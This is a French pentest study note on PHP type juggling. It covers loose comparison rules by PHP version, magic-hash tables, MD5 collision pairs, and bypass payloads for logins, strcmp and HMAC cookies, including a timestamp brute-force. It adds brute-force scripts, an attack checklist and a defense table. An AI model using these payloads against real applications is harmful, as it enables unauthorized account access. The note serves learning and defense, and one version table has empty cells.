

# Type Juggling (PHP)

> [!info] **En 1 phrase**
> Le Type Juggling = PHP **convertit automatiquement les types** lors d'une comparaison **lâche** (`==`)
> → deux valeurs « différentes » sont jugées **égales** → bypass d'authentification, de signatures HMAC, de tokens.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> PHP est un langage **à types faibles** : avec `==` il « devine l'intention du programmeur » et
> **convertis** les opérandes avant de comparer. Si l'attaquant contrôle une des deux variables
> (POST, GET, cookie, JSON), il peut forcer une valeur qui **s'égalise** avec une autre (ex : un hash
> stocké en base) sans connaître le secret. `===` (strict) compare type **et** valeur → inattaquable.

---

## `==` vs `===`

```php
<?php
var_dump('123' == 123);    // bool(true)   → la string est convertie en int
var_dump('123' === 123);   // bool(false)  → types différents (string ≠ int)

var_dump(0 == 'admin');    // bool(true)  (PHP ≤ 7.4) / bool(false) (PHP 8+)
var_dump(0 === 'admin');   // bool(false) — toujours
?>
```

- **Lâche** : `==` / `!=` → même **valeur** (avec conversion de type).
- **Strict** : `===` / `!==` → même **valeur ET même type**.

> Les règles de conversion s'appliquent **aussi** à `switch()`, `in_array()`, `array_search()`,
> `sort()`… toute comparaison interne utilisant `==`.

---

## Tableau des comparaisons lâches (par version)

```txt
+--------------------------------------------+----------+----------+----------+
| Comparaison (==)                            | PHP 5.x  | PHP 7.x  | PHP 8+   |
+--------------------------------------------+----------+----------+----------+
| '123' == 123                               | true     | true     | true     |
| '1e3' == 1000                              | true     | true     | true     |
| '0010e2' == '1e3'                          | true     | true     | true     |
| '0xABCdef' == ' 0xABCdef'                  | true     | false    | false    |
| '0x01' == 1                                | true     | false    | false    |
| '0x1234Ab' == '1193131'                    | true     | false    | false    |
| '123a' == 123                              | true     | true     | false    |
| 'abc' == 0                                 | true     | true     | false    |
| '' == 0                                    | true     | true     | false    |
| '0' == false                               | true     | true     | true     |
| 0 == false                                 | true     | true     | true     |
| false == NULL                              | true     | true     | true     |
| NULL == ''                                 | true     | true     | true     |
| '0e4620974…' == '0e8304004…' (2 magic)     | true     | true     | true     |
| '0e123' == 0                               | true     | true     | true     |
+--------------------------------------------+----------+----------+----------+
```

> [!warning] **Piège n°1 (souvent mal documenté)**
> Beaucoup d'articles (PATT inclus) affirment que PHP 8 « tue » les magic hashes.
> **FAUX** : `md5('240610708') == md5('QNKCDZO')` retourne **toujours `true`** en PHP 8.x
> (vérifié 3v4l de 5.3 → 8.5), car **deux numeric-strings** sont toujours comparées numériquement.
> PHP 8 corrige les **strings non numériques** (`'abc' == 0`), pas les `0e…`.

---

## Strings → nombres : comment PHP convertit

```txt
String NUMÉRIQUE (reconnue par PHP) :
  [espaces] [signe] chiffres [. chiffres] [eE [signe] chiffres]
  → '1e3' → 1000.0   '0e999' → 0.0   '+1' → 1   '-1' → -1
  → ' 42' → 42 (espace AVANT ok)   → '42 ' → 42 (espace APRÈS : ok PHP 8+, PHP 7 refuse)
  → '1.5' → 1.5   → '0.5' → 0.5   → '1E-3' → 0.001

String NON numérique :
  PHP < 8  → convertie en int : préfixe numérique conservé, sinon 0
             '123abc' → 123    'abc123' → 0    'abc' → 0    '' → 0
  PHP 8    → comparaison de STRINGS (le nombre est casté en string)
             '123abc' == 123 → false    'abc' == 0 → false    '' == 0 → false

Hexadécimal (0x…) :
  PHP 5    → '0x1A' == 26 → true   (les strings hex sont numériques)
  PHP 7+   → plus supporté : '0x1A' == 26 → false
```

### Payloads utiles (comparaison `==` avec un nombre)

```txt
0            == 'admin'     → true (PHP ≤ 7.4)   # envoie un int via JSON : {"password":0}
'1e3'        == 1000        → true                # notation scientifique
'1E3'        == 1000        → true
'+1'         == 1           → true                # signe explicite
' 1' / '1 '  == 1           → true                # espaces
'0x1A'       == 26          → true (PHP 5 only)
'abc'        == 0           → true (PHP ≤ 7.4)
''           == 0           → true (PHP ≤ 7.4)
'0e1' / '0e9999' == 0       → true (toutes versions)
```

---

## Magic Hashes

> Si un hash (hexadécimal, en minuscules) commence par **`0e`** suivi **uniquement de chiffres**
> (regex `^0+e[0-9]+$`), PHP l'interprète en **notation scientifique** → valeur `0.0`.
> Deux hash « 0e » s'égalisent donc sous `==`, et n'importe quel hash « 0e » vaut `0`.

```php
<?php
// Deux strings DIFFÉRENTES, hashes différents, mais == true :
var_dump(md5('240610708') == md5('QNKCDZO'));   // bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));  // bool(true)
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY')); // bool(true)
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m')); // bool(true)
var_dump('0e123' == '0e456');                    // bool(true)  (toutes versions PHP)
?>
```

### MD5 (magic : le digest match `^0+e[0-9]+$` — valeurs vérifiées)

| Input | Digest MD5 |
|---|---|
| `240610708` | `0e462097431906509019562988736854` |
| `QNKCDZO` | `0e830400451993494058024219903391` |
| `QLTHNDT` | `0e405967825401955372549139051580` |
| `aabg7XSs` | `0e087386482136013740957780965295` |
| `aabC9RqS` | `0e041022518165728065344349536299` |
| `0e1137126905` | `0e291659922323405260514745084877` |
| `0e215962017` | `0e291242476940776845150308577824` |
| `0e1284838308` | `0e708279691820928818722257405159` |
| `s878926199a` | `0e545993274517709034328855841020` |
| `s155964671a` | `0e342768416822451524974117254469` |
| `s214587387a` | `0e848240448830537924465865611904` |
| `s1091221200a` | `0e940624217856561557816327384675` |
| `s1885207154a` | `0e509367213418206700842008763514` |
| `s1502113478a` | `0e861580163291561247404381396064` |
| `s1184209335a` | `0e072485820392773389523109082030` |

### SHA-1 / SHA-224 / SHA-256 / MD4

| Algo | Input | Digest |
|---|---|---|
| SHA-1 | `10932435112` | `0e07766915004133176347055865026311692244` |
| SHA-1 | `aaroZmOk` | `0e66507019969427134894567494305185566735` |
| SHA-1 | `aaK1STfY` | `0e76658526655756207688271159624026011393` |
| SHA-1 | `aaO8zKZF` | `0e89257456677279068558073954252716165668` |
| SHA-1 | `aa3OFF9m` | `0e36977786278517984959260394024281014729` |
| SHA-224 | `10885164793773` | `0e281250946775200129471613219196999537878926740638594636` |
| SHA-256 | `34250003024812` | `0e46289032038065916139621039085883773413820991920706299695051332` |
| SHA-256 | `TyNOQHUS` | `0e66298694359207596086558843543959518835691168370379069085300385` |
| MD4 | `gH0nAdHk` | `0e096229559581069251163783434175` |
| MD4 | `IiF+hTai` | `00e90130237707355082822449868597` |

> [!tip] **Forme générale** : `0e…`, mais aussi `00e…`, `000e…` (mantisse = plusieurs zéros) et
> `0e-…` / `0e+…` (signe d'exposant) valent tous **0**. Regex complète : `^0+[eE][+-]?[0-9]+$`.
> Pour un **digest hexadécimal** (md5/sha1), seules les formes `0e<chiffres>` / `00e<chiffres>` existent.

---

## Bypass d'authentification

### `md5(...) == 0`

```php
<?php
// Cible : un hash == 0 suffit à valider
if (md5($_GET['password']) == 0) { login(); }

// GET ?password=240610708   (ou QNKCDZO, QLTHNDT, s878926199a, 0e215962017…)
// → md5 = '0e462…' == 0 → true.  MARCHE AUSSI EN PHP 8 (numeric-string vs int).
?>
```

### Hash stocké == hash fourni

```php
<?php
// Cible : $row['password'] contient md5('240610708') = 0e46209743… (magic)
if (md5($_POST['pass']) == $row['password']) { login(); }

// POST pass=QNKCDZO → md5 = 0e8304004… == 0e4620974… → true → loggé en admin
// (fonctionne tant que les DEUX digests sont des numeric-strings)
?>
```

### `password_hash(...) == 0`

```php
<?php
// Cible : comparaison lâche d'un hash bcrypt avec 0
if (password_hash($pass, PASSWORD_DEFAULT) == 0) { … }
// PHP ≤ 7.4 : '$2y$10$…' (non numérique) → castée en 0 → 0 == 0 → true → BYPASS
// PHP 8+    : '$2y$10$…' vs '0' → comparaison de strings → false → corrigé
?>
```

### `$pass == 'admin'` (type contrôlé par l'attaquant)

```php
<?php
if ($pass == 'admin') { admin(); }
// PHP ≤ 7.4 : envoyer un INT 0 via JSON → 0 == 'admin' → 'admin' castée en 0 → true
// body = {"password": 0}   (ou password[]=x, password=true…)
// PHP 8+    : 0 == 'admin' → false → corrigé
?>
```

### Bypass HMAC par brute force du timestamp (méthodo PATT)

```php
<?php
// Cible : cookie validé par une comparaison lâche
function validate_cookie($cookie, $key){
    $hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['expiration'], $key);
    return ($cookie['hmac'] == $hash);   // ← lâche !
}

// 1) On brute-force $expiration jusqu'à obtenir un hash_hmac qui commence par 0e + chiffres
for ($i = 1424869663; $i < 1835970773; $i++) {
    $out = hash_hmac('md5', 'admin|' . $i, '');
    if (str_starts_with($out, '0e') && $out == 0) { echo "$i => $out\n"; break; }
}
// → trouvé (clé vide) : 1539805986 => 0e772967136366835494939987377058

// 2) On forge le cookie avec hmac = "0"
$cookie = ['username' => 'admin', 'expiration' => 1539805986, 'hmac' => '0'];
// '0' == '0e772967…' → true → validation passée (PHP ≤ 7.4 ; PHP 8 : '0' vs numeric-string → numeric → 0 == 0 → true aussi !)
?>
```

---

## Magic hashes « des autres fonctions » & vraies collisions

### Hashs qui s'égalisent entre eux (≠ même digest)

- Les paires `0e…` de la section Magic Hashes (`aabg7XSs`/`aabC9RqS`, `aaroZmOk`/`aaK1STfY`,
  `aaO8zKZF`/`aa3OFF9m`) : digests **différents** mais **égaux sous `==`**.
- Deux hashs `0e-…` / `00e…` s'égalisent pareillement (valeur `0.0`).

### Vraies collisions MD5 (MÊME digest, chaînes différentes)

> Deux chaînes **différentes** qui ont le **même hash exact** → exploitables même avec `===`/`hash_equals`
> si on contrôle les deux côtés, et bien sûr avec `==`. MD5 est cassé (Wang & Yu, 2005).

```txt
# Paire alphanumérique (Marc Stevens, 2024) — diffère d'un seul octet :
# les deux chaînes ont le md5 faad49866e9498fc1719f5289e7a0269
TEXTCOLLBYfGiJUETHQ4hAcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak
TEXTCOLLBYfGiJUETHQ4hEcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak

# Paire historique (Wang/Yu 2005, blocks 128 octets) — 6 bits différents,
# les deux blocks ont le md5 79054025255fb1a26e4bc422aef54eb4 :
d131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70
d131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70
```

> [!warning] SHA-1 est aussi cassé (SHAttered, 2017) mais les collisions pratiques
> (chosen-prefix, formats PDF/X.509) restent lourdes à produire. SHA-2/SHA-3 : pas de collision connue.

### Utilité par version PHP (résumé)

| Version | Magic hashes `0e…` | `0 == "abc"` | `md5([])/strcmp([])` | `0x…` hex | bcrypt `== 0` |
|---|---|---|---|---|---|
| PHP 5.x | | | (NULL) | | |
| PHP 7.x | | | (NULL) | | |
| PHP 8+ | (hash vs hash ET vs 0) | | (TypeError) | | |

---

## Comparison bugs (fonctions & structures)

### `strcmp()` → NULL (PHP ≤ 7.4)

```php
<?php
// Cible : strcmp() retourne 0 si égal
if (strcmp($_POST['password'], $secret) == 0) { login(); }

// POST password[]=x  → strcmp() reçoit un ARRAY → retourne NULL (warning)
// NULL == 0 → true → BYPASS.  (PHP 8 : TypeError → plus exploitable)
?>
```

### `md5()` / `sha1()` sur un tableau

```php
<?php
// Cible : comparaison de deux hash d'entrées
if (md5($_GET['a']) == md5($_GET['b'])) { … }

// ?a[]=1&b[]=2  → md5([]) == NULL et md5([]) == NULL → NULL == NULL → true (PHP ≤ 7.4)
// PHP 8 : TypeError.
?>
```

### `in_array()` / `array_search()` (comparaison lâche par défaut)

```php
<?php
// Cible : vérification d'appartenance
if (in_array($_GET['id'], [1, 2, 3])) { … }
// PHP ≤ 7.4 : ?id=1abc  → '1abc' == 1 → true → bypass
// PHP 8+    : '1abc' == 1 → false… MAIS ?id=1e3 → '1e3' == 1? non, == 1000 → hors liste
//            et in_array('1e3', [1000]) reste TRUE en PHP 8 (numeric-string).
// Correctif : in_array($x, $tab, true)
?>
```

### `switch()` (les `case` utilisent `==`)

```php
<?php
switch ($x) {
    case 'admin': …            // PHP ≤ 7.4 : $x = 0 → 0 == 'admin' → MATCH
    case 0: …                  // PHP 8 : switch('0e1') → '0e1' == 0 → toujours MATCH
}
// PHP 8 ne corrige pas tout : les numeric-strings vs nombres matchent encore.
?>
```

### Array vs string / `if ($key == 'admin')`

```php
<?php
// array == string → TOUJOURS false (un array est « plus grand » que tout, jamais égal)
if ($arr == 'admin') { … }    // jamais true — PAS le bon vecteur ici
// Le vrai vecteur array = strcmp($arr, 'admin') == 0 (NULL) ou md5($arr) == NULL.
// Aussi : $key == 0 avec $key = array → false. Tester plutôt via les fonctions.
?>
```

---

## PHP 8 — changements (RFC « Saner string to number comparison » + « Consistent type errors »)

| Comparaison | PHP 7 | PHP 8 |
|---|---|---|
| `0 == "foo"` / `0 == ""` | true | **false** |
| `42 == "42foo"` | true | **false** |
| `42 == " 42"` | true | true (inchangé) |
| `"1" == "01"` / `"10" == "1e1"` | true | true (2 numeric-strings → numérique) |
| `100 == "1e2"` | true | true (number vs numeric-string) |
| `md5('240610708') == md5('QNKCDZO')` | true | **true** (toujours !) |
| `$hash_0e == 0` | true | **true** (toujours !) |
| `strcmp($arr, "x")` | NULL (warning) | **TypeError** |
| `md5($arr)` / `sha1($arr)` | NULL (warning) | **TypeError** |
| `switch(0) { case "admin": }` | match | **pas de match** |
| `password_hash(...) == 0` | true | **false** |

> [!tip] **Ce qui reste exploitable en PHP 8** : magic hashes (`hash == 0`, `hash == hash`),
> `'1e3' == 1000`, `'0e1' == 0`, `true == "n'importe quoi"`, `null == ''`, et les collisions
> MD5 réelles. Toujours **fingerprinter la version** (`X-Powered-By`, erreurs, `/phpinfo`).

---

## Outils & scripts

### Générer un magic hash (brute force `0e…`)

```python
# Python — md5 : ~1 chance sur 170 millions → quelques minutes en single core
import hashlib
i = 0
while True:
    h = hashlib.md5(str(i).encode()).hexdigest()
    if h[:2] == "0e" and h[2:].isdigit():
        print(f"md5({i}) = {h}"); break
    i += 1
```

```php
<?php
// PHP — variante
for ($i = 0; $i < 200000000; $i++) {
    $h = md5($i, false);
    if (preg_match('/^0+e\d+$/', $h)) { echo "$i => $h\n"; break; }
}
?>
```

```bash
# Bash
for i in $(seq 0 200000000); do h=$(printf %s "$i" | md5sum | cut -d' ' -f1); [[ "$h" =~ ^0+e[0-9]+$ ]] && { echo "$i $h"; break; }; done
```

```bash
# MD5/SHA1 plus longs → GPU : hashcat (fork de Chick3nman512 / spaze pour chercher les 0e)
hashcat -m 0 -a 3 "?d?d?d?d?d?d?d?d?d?d?d" --custom-charset1=?d ?d?d...   # attaque masque
# Taille du budget : MD5 ≈ 2^28 essais, SHA-1 ≈ 2^43 (1/256 × (10/16)^n) → quasi impossible SHA-1
```

### Recherche avec salt

```bash
# zwrh/magic-hashing (Python) : magic hash avec salt, apposé ou préposé
python main.py -l 8 -s "SALT" -a md5 -m append
```

### Collisions MD5 réelles

- **hashclash** (Marc Stevens) : boîte à outils MD5 — collisions **identical-prefix** et
  **chosen-prefix** (falsification de fichiers/SIG/certs). `https://github.com/cr-marcstevens/hashclash`
- **fastcoll** (Klimov/Paxson) : collisions identical-prefix très rapides.
- **evilize / md5coll** (Selinger, basé sur Wang-Yu) : générer 2 programmes avec le même md5.
- **Liste de magic hashes** : `https://github.com/spaze/hashes` (md5, sha1, sha224, sha256, ripemd, tiger, xxh…).

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **`===` / `!==`** | LA règle d'or : comparer type ET valeur. Interdit `==`/`!=` sur entrées & hashs |
| **`hash_equals()`** | Comparaison de hash **timing-safe** et stricte — jamais `==` |
| **`password_verify()` / `password_hash()`** | Les mots de passe ne se comparent JAMAIS avec `==` (et pas de md5/sha1) |
| **`in_array($x, $tab, true)`** / `array_search(…, true)` | Flag strict obligatoire |
| **Type hints + `declare(strict_types=1)`** | Les appels de fonction vérifient les types |
| **Casts explicites** | `(int)`, `(string)`, `is_string()`, `filter_var(…, FILTER_VALIDATE_INT)` sur les entrées |
| **Hashing adapté** | Algorithme lent + salt (argon2id/bcrypt/scrypt) ; MD5/SHA-1 = cassés |
| **Valider la forme des entrées** | Rejeter tableaux/JSON non typés (`is_string()`, `is_array()`), longueur, allowlist |
| **PHP à jour** | PHP 8+ corrige une partie (non-numeric vs int, TypeError sur arrays) — PAS les `0e…` |

---

## Tips & Pièges

> [!tip] **Comment tester si un hash est « magique »**
> ```php
> var_dump($hash == 0);                     // true → magic
> preg_match('/^0+e[0-9]+$/i', $hash);      // true → magic (digest hex)
> ```
> ```bash
> [[ "$h" =~ ^0+e[0-9]+$ ]] && echo MAGIC
> ```

> [!tip] **Ordre d'attaque**
> 1. Fingerprinter la version PHP (headers, erreurs) — un payload PHP 7 peut casser sur PHP 8.
> 2. Repérer les `==`/`!=` dans le code source (grep) : sur hash, password, token, hmac.
> 3. Tester dans l'ordre : `0e`-hash (240610708, QNKCDZO…), `0`/`true` via JSON,
>    `password[]=x` (strcmp/md5 array), `'1e3'`, `0x…` (PHP 5).
> 4. Vérifier chaque hypothèse localement (`php -r`) dans la bonne version.

> [!warning] **Pièges**
> - **PHP 8 ≠ safe pour les magic hashes** : `$hash_0e == 0` et `hash == hash` fonctionnent
>   toujours (numeric-strings). PATT se trompe sur ce point.
> - `'0e123' == '0e456'` → **true** ; mais `'0e123' === '0e456'` → false. Le strict change tout.
> - `json_decode()` donne de vrais types (int `0`, `true`, `[]`) → les comparaisons `==` au JSON
>   deviennent vulnérables même sans magic hash (`{"password": 0}`, `{"password": true}`).
> - `in_array()`/`switch()` utilisent `==` en interne → vérifier le flag strict / `match`+`===`.
> - `strcmp() === 0` n'est PAS bypassable par array (array → TypeError/erreur), mais `== 0` oui (PHP 7).
> - Un hash hex contient `a-f` : `0e` suivi de chiffres **seulement** = magic ; `0e` suivi d'une
>   lettre (ex `0eab…`) n'est PAS une numeric-string → pas exploitable.
> - La brute force HMAC/timestamp dépend de la **clé** et de l'**algo** : re-bruteforcer à chaque
>   cible (le `1539805986` de PATT marche pour clé vide + `admin|`).

> [!tip] **Comparaisons à connaître par cœur**
> ```
> '' == 0 == false == NULL    → true        'abc' == 0      → true (PHP ≤ 7)
> '0' == false                → true        '123a' == 123   → true (PHP ≤ 7)
> '1e3' == 1000               → true        '0e1' == '0e2'  → true
> '0e1' == 0                  → true        true == 'string' → true
> 1 == '1'                    → true        1 === '1'       → false
> ```

---

## Labs

- Root-Me — PHP — Type Juggling : https://www.root-me.org/en/Challenges/Web-Server/PHP-type-juggling
- Root-Me — PHP — Loose Comparison : https://www.root-me.org/en/Challenges/Web-Server/PHP-Loose-Comparison

---

## Liens

- [[Injection SQL| SQLi]]
- [[Injection de commandes| Injection de commandes]]
- [[NoSQL| NoSQL]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — Type Juggling](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md)
- Réfs : [Magic Hashes (WhiteHatSec)](https://www.whitehatsec.com/blog/magic-hashes/) · [spaze/hashes](https://github.com/spaze/hashes) · [(Super) Magic Hashes (Almond)](https://offsec.almond.consulting/super-magic-hash.html) · [PHP 8.0 — incompatible changes](https://www.php.net/manual/en/migration80.incompatible.php)
